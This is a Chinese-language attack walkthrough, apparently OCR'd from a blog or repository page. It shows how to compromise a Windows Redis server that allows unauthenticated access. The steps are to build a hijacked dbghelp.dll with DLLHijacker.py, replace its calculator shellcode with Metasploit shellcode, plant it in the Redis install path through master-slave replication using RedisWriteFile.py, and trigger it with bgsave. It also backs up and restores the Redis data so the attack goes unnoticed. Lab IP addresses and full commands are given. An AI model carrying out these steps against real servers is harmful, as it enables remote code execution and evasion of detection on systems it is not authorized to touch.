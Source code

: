 使用jkme师傅的dll_hijack工具，生成DLL工程项目。

python3 DLLHijacker.py dbghelp.dll

![]()

生成后出现sln文件。

![]()

使用vs2019打开dbghelp.sln的dllmain.cpp文件，在如图所示位置将路径改为目标redis的运行路径。(就是刚才执行info后的路径)

![]()

用msf演示，生成shellcode。

![]()

继续在dllmain.cpp中，将原来的计算器shellcode替换成刚才生成的msf shellcode。

![]()

修改完毕保存，记得设置使用release格式。

![]()

![]()

![]()

![]()

使用RedisWriteFile将修改后的dbghelp.dll利用主从复制写入到目标的制定位置。

python3 RedisWriteFile.py --rhost=192.168.41.29 --rport=6379
--lhost=192.168.41.38 --rpath="C:/Program Files/Redis/" --rfile="dbghelp.dll"
--lfile="dbghelp.dll"

![]()

![]()

这里说下，为啥不直接主从复制获取shell。因为使用主从复制RCE的前提是需要关键模块MODULE
LOAD，这个是redis4.0以后才有的，而windows目前支持的最高版本是3.2。

jkme师傅还提到，使用RedisWriteFile写入文件的时候，因为使用的是主从复制，会把redis里面的数据清空，这样攻击之后可能会被发现。因此我们在之前可以先备份下。

redis-dump-go.exe -host 192.168.41.29 -output commands > redis.dump

![]()

备份完成，也把dll文件写入后，直接在redis未授权命令行上执行bgsave，然后恢复备份。

![]()
